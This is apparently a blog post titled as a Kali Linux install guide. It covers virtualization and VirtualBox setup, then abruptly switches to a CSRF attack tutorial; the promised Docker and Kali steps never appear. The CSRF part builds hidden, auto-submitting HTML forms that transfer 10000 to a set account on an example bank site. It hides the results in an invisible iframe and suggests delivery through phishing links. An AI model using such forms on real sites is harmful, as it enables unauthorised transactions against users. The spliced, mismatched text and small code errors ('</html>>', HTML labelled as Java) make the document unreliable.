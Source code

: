 ```yaml
---
layout: post
title: "Project Kali Install"
subtitle: "Virtualization and Kali Linux"
background: '/img/posts/Kali.jpg'
---
```


## Background

In the realm of cybersecurity, virtualization plays a crucial role by enabling the creation of isolated virtual environments within a single physical computer. This technology allows for the development of distinct virtual machines, each equipped with its own virtual Central Processing Unit (CPU), Graphics Processing Unit (GPU), Random Access Memory (RAM), Network Interface Card (NIC), storage (HDD, SSD), and input peripherals such as a mouse and keyboard.

The significance of virtualization in cybersecurity lies in its ability to conduct various tasks within these isolated virtual machines, all without compromising the security of the underlying physical machine's operating system. To achieve this, a hypervisor, a specialized software component, must be installed within the host machine's operating system. The hypervisor facilitates hardware virtualization services, ensuring the secure and efficient operation of the virtual environments.

## Setting up your Virtual Environment


![IMDb page](/img/posts/VirtualEnvironment.jpg)


We have outlined instructions for two widely used virtual environments: *VirtualBox* and *Docker*. To initiate the process, opt for either Method #1, which involves configuring VirtualBox and Kali, or Method #2, centered around Docker and Kali.

## Method 1: VirtualBox

#### 1. Download VirtualBox

- Go to **[VirtualBox.org](https://www.virtualbox.org/)**
- Click the big blue button that says "Download VirtualBox".
- Click on the platform package for your operating system.
- Save the file.

#### 2. Install VirtualBox

- Run the installer once the download is finished.
- Select Next to start the installation.
- Select Next to install the default feature set (everything).
- Select Next to choose the default options.
- Select Yes to install the virtual network interfaces. This will allow VirtualBox to create virtual networks and tap into your physical NIC in order for the guest machines to connect to the Internet.
- Select Install.
- Answer `Yes` to the Windows UAC prompt (check for flashing icon in your taskbar)
- Select Finish.

## Exploiting Security: CSRF POST Request Attack

``GET`` requests aren't the sole method for initiating a CSRF attack. An alternative approach involves an attacker fabricating a form. Breaking down the process step by step can provide clarity on the construction of such an attack.

Consider a scenario where an attacker conducts research to understand the appearance of a genuine bank.

```java
<html>
  <head>
    <title>Bank Website</title>
  </head>
  <body>
    <form action="http://bank.com/transfer" method="POST" name="bank_form">
      <input type="text" name="amount" value="" />
      <input type="text" name="to_account" value="" />
      <input type="submit" value="submit" />
    </form>
  </body>
</html>>
```
The attacker can embed that HTML into a different page and deceive a user into submitting the form. This method can bypass any "allow POST requests only" safeguards that may be implemented, as it involves a ``POST`` request. Similar to a ``GET`` request, this ``POST`` request transmits any authorization cookies.

To accomplish this, the attacker simply needs to discover a means of tricking a user into submitting the concealed form. This can be achieved by employing CSS to hide the form and then utilizing JavaScript to automatically submit the form upon page loading.
    
```java
<html>
  <head>
    <title>Fake Form</title>
  </head>
  <body onload="document.bank_form.submit()">
    <form action="http://bank.com/transfer" method="POST" name="bank_form" style="display: none;">
      <input type="text" name="amount" value="10000" />
      <input type="text" name="to_account" value="2468013579" />
    </form>
  </body>
</html>
```

Take note that the body incorporates an ``onload`` attribute, prompting an immediate form submission, while the form employs a ``style`` attribute to keep itself hidden.

This process doesn't necessitate the user to click "Submit"; in fact, there isn't even a submit button on the form. Persuading a user to visit this page is adequate to trigger the request, and accomplishing this can be as simple as embedding a deceptive link in a phishing email.

However, there is a potential issue with this attack. After the form submission, the user might witness the outcomes, like a page on the bank's website confirming a "Funds transfer complete." If a user observes this, they may grow suspicious and likely contact their bank to annul the transaction.

To counter this, an attacker must conceal the results. Forms facilitate the transmission of their outcomes to an ``iframe`` by utilizing a ``target`` attribute.

```java
<html>
  <head>
    <title>Fake Form</title>
  </head>
  <body onload="document.bank_form.submit()">
    <form action="http://bank.com/transfer" method="POST" name="bank_form" style="display: none;" target="hidden_results" >
      <input type="text" name="amount" value="10000" />
      <input type="text" name="to_account" value="2468013579" />
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>
```

Observe the inclusion of the ``iframe`` tag, set to "``display: none``," and the addition of a new ``target`` attribute to the ``form`` tag.

By concealing an ``iframe`` and directing the form results to it, the user will remain unaware that a CSRF attack has transpired.